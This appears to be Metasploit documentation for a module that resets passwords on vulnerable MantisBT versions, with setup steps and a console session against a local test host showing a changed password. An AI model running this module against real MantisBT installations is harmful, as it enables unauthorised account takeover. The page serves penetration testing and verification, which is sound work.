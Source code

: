 ## Vulnerable Application

MantisBT before 1.3.10, 2.2.4, and 2.3.1, that can be downloaded
on
[Sourceforge](https://sourceforge.net/projects/mantisbt/files/mantis-stable/).

## Verification Steps

  1. Install the vulnerable software
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/http/mantisbt_password_reset```
  4. Do: ```set rhost```
  5. Do: ```run```
  6. If the system is vulnerable, the module should tell you that the password
     was successfulyl changed.

## Scenarios

  ```
   msf > use auxiliary/admin/http/mantisbt_password_reset
   msf auxiliary(mantisbt_password_reset) > set rport 8082
   rport => 8082
   msf auxiliary(mantisbt_password_reset) > set rhost 127.0.0.1
   rhost => 127.0.0.1
   msf auxiliary(mantisbt_password_reset) > run
   
   [+] Password successfully changed to 'ndOQTmhQ'.
   [*] Auxiliary module execution completed
   msf auxiliary(mantisbt_password_reset) > 
  ```
